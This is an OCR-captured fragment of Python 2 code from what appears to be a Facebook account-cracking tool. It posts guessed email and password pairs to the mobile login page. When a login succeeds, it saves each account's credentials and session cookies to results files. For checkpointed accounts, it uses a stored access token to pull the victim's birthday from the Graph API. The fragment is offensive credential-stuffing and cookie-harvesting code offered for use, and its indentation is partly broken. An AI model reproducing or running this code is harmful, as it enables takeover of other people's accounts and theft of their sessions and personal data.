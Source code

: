             ses = requests.Session()

            ses.headers.update({"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":_kontol,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})

            p = ses.get("https://mbasic.facebook.com")

            b = ses.post("https://mbasic.facebook.com/login.php", data={"email": user, "pass": pw, "login": "submit"})

            if "c_user" in ses.cookies.get_dict().keys():

             kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])

                print '\r  %s* --> %s|%s|%s                 %s' % (H,user,pw,kuki,N)

                wrt = ' [✓] %s|%s|%s' % (user,pw,kuki)

                ok.append(wrt)

                open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                break

            elif "checkpoint" in ses.cookies.get_dict().keys():

                try:

                    kontol = open('.memek.txt').read()

                    cp_ttl = requests.get('https://graph.facebook.com/%s?fields=birthday&access_token=%s'%(user,kontol)).json()['birthday']

                    month, day, year = cp_ttl.split('/')

                    month = bulan_ttl[month]

                    print '\r  %s* --> %s|%s|%s %s %s     %s' % (K,user,pw,day,month,year,N)

                    wrt = ' [×] %s|%s|%s %s %s' % (user,pw,day,month,year)

                    cp.append(wrt)

                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                    break

                except (KeyError, IOError):

                    month = ''

                    day   = ''

                    year  = ''

                except:

                    pass

                print '\r  %s* --> %s|%s                %s' % (K,user,pw,N)

                wrt = ' [×] %s|%s' % (user,pw)

